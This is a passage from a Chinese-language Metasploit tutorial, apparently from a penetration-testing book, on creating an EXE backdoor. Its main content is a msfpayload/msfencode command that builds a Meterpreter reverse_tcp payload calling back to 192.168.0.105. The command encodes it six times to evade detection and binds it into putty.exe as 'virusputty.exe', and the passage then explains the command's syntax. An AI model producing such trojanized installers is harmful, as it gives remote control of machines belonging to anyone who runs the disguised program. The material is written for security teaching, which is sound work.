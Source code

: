 ![Creating an EXE backdoor](img/3589_10_07.jpg)

输入命令后，我们看到桌面上有一个`virus.exe`后门。就这样,；我们完了。使用`msfpayload`创建后门就这么简单。如果我们不想创建自己的 EXE 文件，而只想与另一个 EXE 文件绑定（可能是软件安装文件），我们可以混合使用`msfpayload`和`msfvenom`来实现。

我们现在将后门 EXE 文件与`putty.exe`文件绑定。非常小心地键入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 6 -t exe -x/root/Desktop/putty.exe -o /root/Desktop/virusputty.exe

```

使用的语法如下所示：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 6 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template)- root/Desktop/virus.exe o(The output file) - root/Desktop/virusputty.exe

```

我们可以在下面的截图中看到，我们的病毒文件`virus.exe`已与`putty.exe`绑定，提供给我们`virusputty.exe`，可在我们的桌面上使用。

![Creating an EXE backdoor](img/3589_10_08.jpg)
